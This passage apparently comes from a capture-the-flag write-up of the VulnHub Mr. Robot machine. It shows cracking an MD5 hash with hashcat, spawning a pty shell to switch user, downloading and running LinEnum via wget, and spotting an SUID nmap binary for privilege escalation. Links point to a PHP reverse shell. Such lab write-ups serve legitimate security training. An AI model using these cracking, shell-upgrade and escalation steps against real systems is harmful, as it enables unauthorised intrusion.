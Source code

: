 ```
$ hashcat -m 0 -a 0 -d 1 --force hash.txt rockyou.txt

[...]

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
                                                 
[...]
```

Now let's attempt to switch users in the shell with our password

```
$ su robot
su: must be run from a terminal
```

We need to spawn a proper shell if we want to switch users. To do that we'll use `python`.

```
$ python -c 'import pty; pty.spawn("/bin/sh")'

$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

After spawning `/bin/sh` using `pty` from `python`, we can read `key-2-of-3.txt` and capture our second key.

### Logging in as Root
To capture our final flag we'll have to login as `root`. Since we have no clues regarding what the password for it 
might be, we must attempt privilege escalation. Using [LinEnum][LinEnum], we can scan for possible vulnerabilities in 
the system.

```
$ cd /tmp
cd /tmp

$ wget raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

$ chmod +x LinEnum.sh

$ ./LinEnum.sh

[...]

### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/local/bin/nmap
/usr/bin/gcc
/usr/bin/curl

[...]

[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap

```

[pentestmonkey]: http://pentestmonkey.net/
[Mr. Robot]: /images/posts/2019-07-04-vulnhub-mr_robot/Mr.%20Robot.png
[robots.txt]: /images/posts/2019-07-04-vulnhub-mr_robot/Robots.png
[Wordpress - Panel]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Panel.png
[Wordpress - Users]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Users.png
[PHP Reverse Shell]: http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[Wordpress - Denied]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20Denied.png
[Wordpress - 404]: /images/posts/2019-07-04-vulnhub-mr_robot/Wordpress%20-%20404%20Template.png
[LinEnum]: https://github.com/rebootuser/LinEnum